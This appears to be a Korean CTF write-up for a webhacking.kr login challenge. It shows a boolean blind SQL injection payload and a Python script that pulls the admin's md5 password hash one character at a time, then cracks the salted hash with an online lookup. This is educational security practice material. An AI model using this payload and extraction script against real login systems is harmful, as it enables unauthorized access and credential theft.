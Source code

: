 # admin으로 로그인하기

로그인 폼이 있다. 
일단 회원가입을 하고, 로그인을 하면 hash key가 주어진다. 

md5 알고리즘 해시값이 나온다. 
이걸 dehash해보았다. 
https://crackstation.net/

비밀번호가 `pass` 였는데, `passapple` 이 해시되어 password hash가 만들어졌다. 

그러니까 **'받은 비번+apple'**를 md5 알고리즘으로 암호화하여 저장하는 것이다. 

***

admin으로 로그인을 하기 위해서는 비번을 알아야한다. 
그리고 비번은 md5로 해시된 형태가 DB에 저장이 된다. 

DB에 있는 admin의 해시된 비번값을 알아내기 위해서는 SQL injection 취약점을 이용해야한다. 

먼저 그냥 admin, anything을 넣어서 로그인을 시도하면, 'Login fail' 문구가 뜬다. 
하지만, 아래와 같은 SQL payload를 넣으면...

```
admin' and 1#
```

'Wrong password!' 라고 표시된다. 
그러니까 

```
admin' and <여기>#
```

 <여기>에 넣은 SQL문의 참거짓을 판별할 수 있다는 것. (참=> 'Wrong password!', 거짓=>'Login fail')
테이블에서 칼럼명이 id, pw라고 문제에 주어져 있기에, 

먼저 pw의 길이를 알아내고, 각 자리의 값을 알아내서 합치면 된다. 

**md5 알고리즘은 무제한의 메시지를 받아서 32개의 16진수 시퀸스를 출력한다.**

길이는 32라는 것을 알 수 있으니.. 각 자리의 문자가 뭔지를 알아내야한다. 
32문자열을 순회하면서, 각 문자를 0~9+

```mssql
substr(str, pos, len)
# str에서 pos 번째 위치에서 len 개의 문자를 읽어 들인다.
```

```python
import requests

cookies={'PHPSESSID':'1uv1k3nmdjkp58kt643v5al23t'}
url="https://webhacking.kr/challenge/bonus-2/index.php"

data = {}
hx = [hex(i)[2:] for i in range(16)]
pw = ''
for i in range(32):
    for j in range(16):
        data['uuid']=f'admin\' and substr(pw,{str(i+1)},1)="{hx[j]}" #' 
        res = requests.post(url, data=data, cookies=cookies)
        if res.text.find('Wrong password!') > 0:
            pw += hx[j]
            print(pw)
            break
print(f'password hash: {pw}')

>> # password hash: 6c9ca386a903921d7fa230ffa0ffc153

# 위에 f'admin\' and substr(pw,{str(i+1)},1)="{hx[j]}" #' 
# 여기서 '{hx[j]}' 주위에 콜론을 꼭 붙여줘야 문자로 인식함. 이걸 몰라서 난.. 또 삽질을 한참했지..
```

구한 password hash를 md5 dehash사이트에 넣어서 값을 구한다.

복호화한 password는 **wowapple**
admin의 비번은 `wow`다.

> 보통 DB에 비번이 저장될때 그대로 저장을 안하고, 해시함수로 암호화해서 저장한다. 
>
> 그래서 SQLi를 통해서 해시값을 알아내도 암호화되어 있기에 원래값을 알 수 없.. 어야 하지만, 
> md5처럼 오래된 알고리즘은 이미 복호화를 위한 데이터가 너무 많이 쌓여있다. 
> 그렇다보니 이번문제처럼 apple같은 salt를 넣어도 암호화가 아닌, encoding을 한 것처럼 금방 복호화가 되어버린다. 
>
> SQLi을 할때는 md5가 32자리라는 것을 이용해서 길이는 따로 구할 거 없이, 바로 한 문자씩 찾아내는 방법을 이용하였다. 
>
> SQLi 으로 화면변화에 따라서 한 문자씩 비번을 알아내는 방법 + md5 암호화의 의미없음을 알게된 문제였다. 